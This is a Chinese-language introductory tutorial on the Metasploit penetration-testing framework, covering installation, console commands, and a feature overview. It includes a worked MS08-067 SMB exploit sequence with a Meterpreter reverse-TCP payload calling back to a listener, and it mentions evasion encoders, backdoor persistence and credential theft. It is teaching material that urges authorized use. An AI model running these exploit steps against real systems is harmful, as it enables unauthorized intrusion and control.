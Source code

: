 Metasploit Framework（MSF）是一款开源的渗透测试工具，用于开发和执行针对远程目标机器的漏洞利用代码。它包含了大量的针对各种操作系统和软件的已知漏洞的利用代码，也允许用户开发自己的漏洞利用模块。

### 1. 安装 Metasploit

Metasploit 可以在多种操作系统上安装，包括 Windows、Linux 和 macOS。在 Linux 上，你可以通过包管理器安装。例如，在 Debian 或 Ubuntu 上，可以使用以下命令安装：

```bash
curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall && \
  chmod 755 msfinstall && \
  ./msfinstall
```

### 2. 初始化数据库

Metasploit 使用 PostgreSQL 数据库来存储和管理数据。安装后，你需要初始化数据库：

```bash
msfdb init
```

### 3. 启动 Metasploit

你可以通过命令行启动 Metasploit 控制台：

```bash
msfconsole
```

### 4. 使用 Metasploit

一旦进入 Metasploit 控制台，你可以开始使用它的功能。这里有一些基本命令：

- `search`：搜索可用的漏洞和利用。
- `use`：选择一个特定的模块来使用（例如，`use exploit/windows/smb/ms08_067_netapi`）。
- `show options`：显示当前模块的配置选项。
- `set`：设置一个选项的值（例如，`set RHOST 192.168.1.100`）。
- `exploit`：执行选定的漏洞利用。

### 5. 实例：利用漏洞

假设你想利用一个名为 `ms08_067_netapi` 的 Windows SMB 服务的漏洞。以下是步骤：

1. 搜索并选择利用代码：

   ```bash
   search ms08_067_netapi
   use exploit/windows/smb/ms08_067_netapi
   ```

2. 配置目标和选项：

   ```bash
   show options
   set RHOST 192.168.1.100
   set RPORT 445
   set payload windows/meterpreter/reverse_tcp
   set LHOST 192.168.1.1
   ```

3. 执行攻击：

   ```bash
   exploit
   ```

如果漏洞利用成功，你将获得目标系统的控制权。

### 6. 使用 Meterpreter

Meterpreter 是 Metasploit 的一个高级有效载荷，提供了丰富的功能，如文件操作、系统命令执行、网络探测等。当你成功利用一个漏洞并且注入 Meterpreter 时，你可以进一步控制系统。

### 7. 更新 Metasploit

为保持漏洞和利用代码的最新状态，定期更新 Metasploit 是很重要的：

```bash
msfupdate
```

Metasploit 是一个功能强大的工具，可以用于安全研究和渗透测试。始终确保在合法和道德的框架内使用 Metasploit，遵守当地的法律和规章制度。

Metasploit Framework (MSF) 是一个全面的渗透测试和安全研究工具，它提供了许多功能来帮助安全专家测试系统的安全性、发现漏洞并确保应用程序的安全。以下是 Metasploit 的一些核心功能：

### 1. 漏洞利用

- **漏洞利用模块**：Metasploit 提供了数千个针对不同操作系统、软件和协议的漏洞利用代码。这些模块可以用于测试系统是否容易受到已知漏洞的攻击。
- **自动化利用工具**：例如，`autopwn` 工具可以自动寻找并利用目标网络上的漏洞。

### 2. 有效载荷生成

- **有效载荷**：Metasploit 允许用户生成各种类型的有效载荷，例如反向或正向 shell，这些可以在利用漏洞后被注入到目标系统中。
- **编码器**：用于生成编码过的有效载荷，以避免目标系统的安全检测。
- **Meterpreter**：一个高级的内存中有效载荷，提供了对目标系统的深度控制功能，如文件管理、网络监控、权限提升和更多。

### 3. 辅助模块

- **扫描器**：Metasploit 提供了各种网络扫描器，用于发现开放的端口和服务，识别操作系统和运行的应用程序版本。
- **嗅探器和嗅探**：用于捕获网络数据，可以帮助揭示网络通信中的敏感信息。
- **拒绝服务（DoS）攻击**：测试网络或服务的稳健性。

### 4. 后渗透测试

- **系统命令执行**：在已经控制的目标系统上执行任意命令。
- **持久性和逃逸检测**：在目标系统上安装后门或者使用技术逃避检测。
- **收集证据**：从目标系统中提取敏感数据，如密码、密钥等。

### 5. 数据库和报告

- **数据库支持**：Metasploit 可以与后端数据库（如 PostgreSQL）集成，自动保存测试结果和数据。
- **报告生成**：生成详细的报告，总结渗透测试的发现和结果。

### 6. 社区与开发

- **插件和扩展**：Metasploit 社区贡献了大量的插件和扩展，这些可以扩展其核心功能。
- **模块开发**：用户可以使用 Ruby 编程语言开发自己的模块，以扩展和自定义 Metasploit 的功能。

Metasploit 提供了一套强大的工具，可以用于广泛的安全测试任务，从前期的侦察和漏洞评估，到后期的漏洞利用和后渗透测试。使用这些工具时，始终需要遵循法律和道德标准，确保在授权的环境中进行测试。